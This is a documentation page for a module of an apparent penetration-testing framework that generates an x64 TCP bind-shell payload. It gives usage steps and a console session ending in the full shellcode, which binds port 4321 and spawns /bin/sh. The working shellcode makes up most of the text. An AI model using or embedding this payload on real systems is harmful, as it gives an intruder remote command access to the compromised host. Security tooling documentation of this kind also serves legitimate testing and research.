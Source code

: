 ## Description

Module generates payload that creates interactive tcp bind shell for X64 architecture.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/x64/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates x64 bind shell tcp payload

## Scenarios

```
rsf > use payloads/x64/bind_tcp
rsf (X64 Bind TCP) > set rport 4321
[+] rport => 4321
rsf (X64 Bind TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52"
    "\xc7\x04\x24\x02\x00\x10\xe1\x48\x89\xe6\x6a\x10\x5a\x6a\x31"
    "\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f"
    "\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
    "\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
    "\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
)
```
